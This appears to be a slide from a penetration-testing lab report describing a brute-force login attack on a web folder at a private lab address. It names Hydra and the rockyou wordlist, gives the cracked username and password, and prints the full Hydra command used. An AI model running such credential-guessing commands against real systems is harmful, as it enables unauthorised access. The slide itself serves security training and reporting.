

# Exploitation: [“Brute Force” Attack]
01

02

03

Tools & Processes
The Kali Linux login cracker “Hydra” was used specifically for this brute force attack.

Achievements
The username (ashton) and its accompanying password (leopoldo) were cracked/found using “Hydra”.

hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder